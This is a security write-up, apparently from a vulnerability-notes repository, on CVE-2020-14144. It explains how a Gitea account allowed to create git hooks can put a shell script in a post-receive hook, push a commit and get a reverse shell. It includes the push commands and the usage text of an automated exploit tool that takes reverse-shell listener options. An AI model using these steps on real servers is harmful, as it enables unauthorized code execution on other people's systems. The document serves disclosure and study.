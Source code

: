 # GiTea - User with git hooks activated

## Requirements

A valid username and password of an account with "May create git hooks" right.

![](./imgs/may_create_git_hooks.png)

## Description

The git hook feature in Gitea 1.1.0 through 1.12.5 might allow for authenticated remote code execution in customer environments where the documentation was not understood (e.g., one viewpoint is that the dangerousness of this feature should be documented immediately above the `ENABLE_GIT_HOOKS` line in the config file). This vulnerability was found by [Niklas Goerke](https://twitter.com/Niklas974) in April 2020.

**NOTE**: The vendor has indicated this is not a vulnerability and states "_This is a functionality of the software that is limited to a very limited subset of accounts. If you give someone the privilege to execute arbitrary code on your server, they can execute arbitrary code on your server. We provide very clear warnings to users around this functionality and what it provides._"

In order to exploit this vulnerability/feature, we need to have a GiTea account with the "_May create git hooks_" rights activated.

A [github issue](https://github.com/go-gitea/gitea/pull/13058) was opened and fixed in version 1.13.0

## Exploitation

In order to successfully exploit this vulnerability/feature, the target server GiTea version should be between version 1.1.0 and version 1.13, and you need a valid account (username, password) with "_May create git hooks_" rights activated.

| **Account with "_May create git hooks_" rights activated** |
|-|
| ![](./imgs/may_create_git_hooks.png) |

From a system administration point of view, the gitea process looks like this before the exploitation :

| **Service status before exploit** |
|-|
| ![](./imgs/gitea_service_before_exploit.png) |

First of all, we need to create a repository on the GiTea web interface, using our account. We create the repository and we go into `Settings -> Git Hooks -> Post Receive Hook`. In this hook you can write a shell script that will be executed after receiving a new commit.

![Post Receive Hook](./imgs/post_receive_hook.png)

Now we will create a temporary directory on our attacking machine, and push to the remote repository. It will trigger the `Post Receive Hook` script.

```sh
touch README.md
git init
git add README.md
git commit -m "Initial commit"
git remote add origin https://vulnserver/testuser/vuln.git
git push -u origin master
```

After we pushed the commit to the remote repository, it will trigger the `Post Receive Hook` script and we will have a reverse shell!

![Reverse Shell](./imgs/gitea_reverse_shell.png)

After the exploitation, a system administrator can easily see our detached reverse shell in the child processes of GiTea:

| **Service status after exploit** |
|-|
| ![](./imgs/gitea_service_after_exploit.png) |

## Exploit tool

I wrote a tool to automatically exploit this vulnerability [CVE-2020-14144-GiTea-git-hooks-rce](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce) :

```
$ ./CVE-2020-14144-GiTea-git-hooks-rce.py -h
    _____ _ _______
   / ____(_)__   __|             CVE-2020-14144
  | |  __ _   | | ___  __ _
  | | |_ | |  | |/ _ \/ _` |     Authenticated Remote Code Execution
  | |__| | |  | |  __/ (_| |
   \_____|_|  |_|\___|\__,_|     GiTea versions >= 1.1.0 to <= 1.12.5
     
usage: CVE-2020-14144-GiTea-git-hooks-rce.py [-h] [-v] -t TARGET -u USERNAME -p PASSWORD [-I REV_IP] [-P REV_PORT]
                                             [-f PAYLOAD_FILE]

CVE-2020-14144 - GiTea authenticated Remote Code Execution using git hooks.

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Increase verbosity.
  -t TARGET, --target TARGET
                        Target host (http://..., https://... or domain name)
  -u USERNAME, --username USERNAME
                        GiTea username
  -p PASSWORD, --password PASSWORD
                        GiTea password
  -I REV_IP, --rev-ip REV_IP
                        Reverse shell listener IP
  -P REV_PORT, --rev-port REV_PORT
                        Reverse shell listener port
  -f PAYLOAD_FILE, --payload-file PAYLOAD_FILE
                        Path to shell script payload to use.
```

## References
 - https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce
 - https://github.com/go-gitea/gitea/pull/13058